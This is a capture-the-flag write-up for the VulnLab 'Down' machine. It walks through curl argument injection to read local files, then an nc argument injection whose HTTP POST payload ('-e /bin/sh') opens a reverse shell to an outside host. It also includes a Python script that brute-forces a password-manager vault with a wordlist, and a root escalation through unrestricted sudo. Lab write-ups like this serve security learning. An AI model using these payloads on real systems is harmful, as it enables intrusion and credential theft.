



# VulnLab - Down Writeup


Down is an easy Linux machine from VulnLab that starts with command injection through a web app, continues with local file disclosure and credential recovery from a password manager file, and ends with a simple but complete privilege escalation to root. The key ideas are bypassing the URL check, abusing a hidden `expertmode` feature, and then cracking the PSWM vault to recover the next user’s password.

## Summary

The target exposed only SSH and HTTP. The website looked like a basic uptime checker, but the backend used `curl` in a way that allowed argument injection and local file reads.

By reading the PHP source, I discovered a hidden `expertmode=tcp` path that used `nc` instead of `curl`. That gave me a second injection point, and I used it to get a shell as `www-data`.

From there, I found PSWM files in `aleks`’ home directory, brute-forced the master password, and used it to become `aleks`. Since `sudo` was unrestricted for that user, root access was immediate.

## Enumeration

The machine was very small from a network perspective: only SSH and HTTP were open.

```bash
nmap -sC -sV -Pn -p22,80 10.10.73.129
```

The web page looked like a simple “is it down?” checker. It accepted a URL and returned whether the target appeared reachable, which suggested the backend was probably making a network request on behalf of the user.



## Argument Injection

The first clue was that the site only accepted `http://` and `https://` URLs, but `curl` supports many other protocols and options. Since the app called `curl` directly, I tested whether additional command-line arguments could be injected through the URL field.



That worked. Supplying `file:///etc/passwd` disclosed local files, proving that the backend’s validation was insufficient.



I also fetched the web server configuration to identify the document root and then read `index.php`.

```bash
curl -s http://10.10.73.129
```

The PHP source showed two modes:

- normal mode, which called `curl`.
- `expertmode=tcp`, which called `nc`.

## Source Disclosure

Reading the source confirmed the issue clearly. The normal mode validated only that the input started with `http` or `https`, then ran:

```php
$ec = escapeshellcmd("/usr/bin/curl -s $url");
exec($ec . " 2>&1",$output,$rc);
```

The expert mode did the same kind of thing with `nc`:

```php
$ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
exec($ec . " 2>&1",$output,$rc);
```

That meant both paths were vulnerable to argument injection, even though the developer used `escapeshellcmd()`. The `port` parameter was especially useful because it could be extended with extra `nc` arguments.

## Foothold

The `expertmode=tcp` feature let me inject `nc` options and spawn a shell. By appending `-e /bin/sh` to the port field, I got code execution as `www-data`.

read this for more info : https://security.szurek.pl/en/exploit-bypass-php-escapeshellarg-escapeshellcmd/#argument-injection

```http
POST /index.php?expertmode=tcp HTTP/1.1
Host: 10.10.73.129
Content-Type: application/x-www-form-urlencoded

ip=10.10.10.10&port=4444+-e+/bin/sh
```

That gave me a foothold on the box and access to the filesystem as the web user.

## User Access

Once on the system, I explored `/home/aleks` and found PSWM-related files under `.local/share/pswm`. The stored vault file contained an encrypted blob that appeared to be the master password store.

```bash
find /home/aleks
cat /home/aleks/.local/share/pswm/pswm
```

Using the public PSWM source code as reference, I wrote a small brute-force script that tested passwords from `rockyou.txt` against the encrypted vault data.

```python
import cryptocode

CRYPTED='...'

def check(password: str) -> bool:
    if result := cryptocode.decrypt(CRYPTED, password):
        print(result)
        return result

with open('/usr/share/wordlists/rockyou.txt') as f:
    while not check(f.readline().strip()):
        pass
```

That recovered the master password, and I used it to become `aleks`.

```bash
su aleks
```

## Root Escalation

After switching to `aleks`, `sudo -l` showed that the account could run anything as anyone, including root.

```bash
sudo -l
```

The rule was simple:

```text
User aleks may run the following commands on down:
    (ALL : ALL) ALL
```

That meant full privilege escalation was just one command away.

```bash
sudo -s
```

## Attack Path

- Enumerate the web app and test the URL field.
- Use argument injection to read local files.
- Read `index.php` and discover `expertmode=tcp`.
- Abuse the `nc` call to get a shell.
- Find PSWM vault files in `aleks`’ home directory.
- Brute-force the vault master password.
- Become `aleks`.
- Use unrestricted `sudo` to get root.
